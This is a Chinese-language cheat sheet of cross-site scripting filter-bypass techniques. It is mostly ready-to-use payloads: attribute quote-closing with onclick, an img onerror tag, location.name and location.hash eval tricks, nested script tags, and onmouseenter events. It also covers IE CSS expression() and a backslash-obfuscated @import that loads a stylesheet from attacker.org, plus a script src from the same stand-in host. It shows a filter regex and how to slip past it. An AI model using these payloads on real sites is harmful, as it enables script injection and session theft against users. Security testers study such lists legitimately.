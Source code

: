 #常见的绕过技术

	大小写绕过
	引号的闭合,导致XSS
		" onclick=alert(1) "
	使用标签闭合方法弹窗!
	payload如下:'><img src=x onerror=alert(1)>
	使用location.name方法弹窗!不错的姿势!
	payload如下:' name=javascript:alert(1)  autofocus onfocus='location=this.name
	利用location.hash方法弹窗!触发XSS
	payload如下:' onclick="eval(location.hash.substr(1))" "

##常规插入及其绕过

		1. Script 标签
		绕过进行一次移除操作：  
		`<scr<script>ipt>alert("XSS")</scr<script>ipt>`  
		Script 标签可以用于定义一个行内的脚本或者从其他地方加载脚本：  
		`<script>alert("XSS")</script>`  
		`<script src="http://attacker.org/malicious.js"></script>` 
 
		2. JavaScript 事件
		我们可以像如下这样在元素中定义 JavaScript 事件：
		`<div onclick="alert('xss')">`
		这个 JavaScript 代码当有人点击它后就会被执行，同时还有其他事件如页面加载或移动鼠标都可以触发这些事件。绝大部分的时间都被过滤器所移除了，但是依旧还有少量事件没有被过滤，例如，onmouseenter 事件：
			`<div onmouseenter="alert('xss')">`
		当用户鼠标移动到 div 上时就会触发我们的代码。
		另一个绕过的办法就是在属性和= 之间插入一个空格：
			`<div onclick ="alert('xss')">`

		3. 行内样式(Inline style)
		我们同样可以在行内样式里利用 IE 浏览器支持的动态特性：
		`<div style="color: expression(alert('XSS'))">`
		过滤器会检查关键字 style，随后跟随的不能是 <，在随后是 expression：
		`/style=[^<]*((expression\s*?[<]∗?)|(behavior\s*:))[^<]*(?=\>)/Uis`
		所以，让我们需要把 < 放到其他地方：
		`<div style="color: '<'; color: expression(alert('XSS'))">`

		4. CSS import
		IE 浏览器支持在 CSS 中扩展 JavaScript，这种技术称为动态特性(dynamic properties)。允许攻击者加载一个外部 CSS 样式表是相当危险的，因为攻击者现在可以在原始页面中执行 JavaScript 代码了。
		<style>
		@import url("http://attacker.org/malicious.css");
		</style>
		malicious.css：
		body {
		    color: expression(alert('XSS'));
		}
		为了绕过对 @import 的过滤，可以在 CSS 中使用反斜杠进行绕过：
		<style>
		@imp\ort url("http://attacker.org/malicious.css");
		</style>
		IE 浏览器会接受反斜杠，但是我们绕过了过滤器。
